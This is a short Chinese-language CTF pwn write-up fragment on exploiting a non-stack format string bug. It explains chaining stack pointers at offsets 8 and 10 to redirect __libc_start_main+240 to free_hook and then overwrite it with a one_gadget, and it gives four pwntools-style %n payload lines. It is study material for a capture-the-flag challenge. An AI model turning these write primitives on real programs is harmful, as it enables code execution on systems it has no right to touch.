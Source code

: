 这里有 13 次格式化字符串

## 思路

利用非栈上的格式化字符串来修改 free\_hook 为 one\_gadget  
\_\_libc\_start\_main+240：main 函数的返回地址

[![](assets/1701612457-4e92c2ca22d35e17faf7ec1f9a44e0e2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623214935-ca2d1e30-11cc-1.png)  
1.这个题首先就是运用 rbp 附近的两个跳板 (偏移为 8 和 10)，把\_libc\_start\_main+240 改成 free\_hook  
这里需要改 6 位，所以需要 4 步

```bash
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
sla('What do you want to say?\n','%'+str(free_hook&0xffff)+'c%10$hn')
sla('What do you want to say?\n','%'+str(num+2)+'c%8$hhn')
sla('What do you want to say?\n','%'+str((free_hook//0x10000)&0xff)+'c%10$hhn')
```

这里前两步修改就是直接对 \_libc\_start\_main+240 后两位进行了修改  
后两步是先修改了一下地址，然后修改了 \_libc\_start\_main+240 的倒数 3，4 位 (就是不能直接修改地址的倒数 3，4 位，我们就修改地址，然后改新地址的最后两位，以达到修改地址的倒数 3，4 位的目的)
